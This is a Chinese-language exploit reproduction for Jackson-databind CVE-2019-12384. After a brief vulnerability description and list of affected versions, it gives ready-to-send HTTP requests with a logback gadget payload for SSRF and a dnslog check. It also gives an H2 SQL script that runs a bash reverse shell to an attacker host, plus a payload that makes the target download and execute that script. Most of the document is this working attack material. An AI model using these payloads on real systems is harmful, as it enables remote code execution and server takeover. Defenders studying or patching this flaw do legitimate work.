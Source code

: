 # 

# Jackson-databind 远程代码执行 CVE-2019-12384

## 漏洞描述

多个Redhat产品受此漏洞影响，CVSS评分为8.1，漏洞利用复杂度高。

该漏洞是由于Jackson黑名单过滤不完整而导致，当开发人员在应用程序中通过ObjectMapper对象调用enableDefaultTyping方法时，程序就会受到此漏洞的影响，攻击者就可利用构造的包含有恶意代码的json数据包对应用进行攻击，直接获取服务器控制权限。

## 漏洞影响

受影响版本：

```
Jackson-databind 2.X < 2.9.9.1
```

不受影响版本：

```
Jackson-databind 2.9.9.1
Jackson-databind 2.10
```

## 漏洞复现

### SSRF

```
POST /fuckme HTTP/1.1
Host: 192.168.136.131:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 109

poc=["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:tcp://192.168.136.129:7777/"}]
```

或者直接使用dnslog验证：

```
poc=["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:tcp://jcqfpe.dnslog.cn/"}]
```

### RCE

首先在vps上放置一个.sql的文件，内容如下：


```sql
CREATE ALIAS SHELLEXEC AS $ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$;
CALL SHELLEXEC('bash -i >& /dev/tcp/192.168.136.129/7777 0>&1')
```

然后发送payload，请求远程的sql文件，进行RCE


```
POST /fuckme HTTP/1.1
Host: 192.168.136.131:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 164

poc=["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://192.168.136.129/exp.sql'"}]

```


